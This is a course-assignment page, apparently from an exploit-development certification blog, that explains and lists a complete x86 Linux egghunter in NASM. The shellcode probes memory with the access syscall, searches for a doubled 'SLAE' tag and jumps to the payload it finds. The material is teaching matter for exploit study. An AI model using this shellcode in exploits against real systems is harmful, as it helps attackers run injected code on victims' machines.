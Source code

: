 ```yaml
---
title:  Assignment 3
description: Create an Egghunter
order: 3
---
```


[&lt;&lt; Go Back]({{ site.baseurl }})


# {{ page.title }}
### {{ page.description }}
___
<div style="text-align:right;direction:ltr;margin-left:1em;"><h6>{{ page.date }}</h6></div>

An egghunter is simply a small piece of shellcode that looks for other shellcode, mostly used when severly limited in space.  The shellcode we will be building has a loop with two parts:
 - Find an accessible page of memory
 - Increment through each byte looking for a *tag*
 
 In our case, we'll use SLAESLAE as our *tag*, or `\x53\x4c\x41\x45\x53\x4c\x41\x45`.  Let's have a look at the shellcode:
 
 ```nasm
; egghunter.nasm
;  - Search memory for tag, then pass over execution

global _start

section .text
_start:

        ; int access(const char *pathname, int mode)
        ; eax = 0x21 (access)
        ; ebx = [edx +4]
        ; ecx = 0x0

page:
        or dx, 0xfff            ; increment page

search:
        inc edx                 ; increment
        xor eax, eax
        mov al, 0x21            ; access, 33
        lea ebx, [edx +4]       ; pathname
        xor ecx, ecx            ; mode
        int 0x80                ; execute

        cmp al, 0xf2
        je page                 ; is accessible?

        mov eax, 0x45414c53     ; tag, SLAE
        mov edi, edx
        scasd                   ; compare to tag
        jne search
        scasd                   ; compare to tag
        jne search

        jmp edi                 ; found!
 ```

To check for memory access, we used the **access** function.  This allows us to search large spaces in memory without worrying about triggering an exception.  We then proceed to increment our pointer until the *tag* SLAE is found twice in a row, at which time we *jmp* to the newly found shellcode.


<br>
{% include preamble.md %}

[&lt;&lt; Go Back]({{ site.baseurl }})
